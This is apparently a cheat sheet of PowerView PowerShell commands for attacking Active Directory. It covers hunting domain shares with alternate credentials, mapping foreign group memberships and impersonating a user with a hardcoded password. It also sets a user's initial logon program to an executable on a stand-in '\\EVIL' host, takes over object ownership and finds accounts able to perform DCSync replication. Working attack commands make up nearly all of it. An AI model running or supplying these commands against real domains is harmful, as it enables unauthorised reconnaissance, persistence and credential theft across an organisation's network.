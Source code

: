 ```powershell

# use alternate credentials for searching for files on the domain
#   Find-InterestingDomainShareFile == old Invoke-FileFinder
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("<Domain>\user",$Password)
Find-InterestingDomainShareFile -Domain <Domain> -Credential $Credential

# save a PowerView object to disk for later usage
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml

# enumerate all groups in a domain that don't have a global scope, returning just group names
Get-DomainGroup -GroupScope NotGlobal -Properties name

# enumerate all foreign users in the global catalog, and query the specified domain localgroups for their memberships
#   query the global catalog for foreign security principals with domain-based SIDs, and extract out all distinguishednames
$ForeignUsers = Get-DomainObject -Properties objectsid,distinguishedname -SearchBase "GC://<Domain>.local" -LDAPFilter '(objectclass=foreignSecurityPrincipal)' | ? {$_.objectsid -match '^S-1-5-.*-[1-9]\d{2,}$'} | Select-Object -ExpandProperty distinguishedname
$Domains = @{}
$ForeignMemberships = ForEach($ForeignUser in $ForeignUsers) {
    # extract the domain the foreign user was added to
    $ForeignUserDomain = $ForeignUser.SubString($ForeignUser.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
    # check if we've already enumerated this domain
    if (-not $Domains[$ForeignUserDomain]) {
        $Domains[$ForeignUserDomain] = $True
        # enumerate all domain local groups from the given domain that have membership set with our foreignSecurityPrincipal set
        $Filter = "(|(member=" + $($ForeignUsers -join ")(member=") + "))"
        Get-DomainGroup -Domain $ForeignUserDomain -Scope DomainLocal -LDAPFilter $Filter -Properties distinguishedname,member
    }
}
$ForeignMemberships | fl

# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf

# enumerates computers in the current domain with 'outlier' properties, i.e. properties not set from the firest result returned by Get-DomainComputer
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-ObjectACL "DC=<Domain>,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}

# check if any user passwords are set
```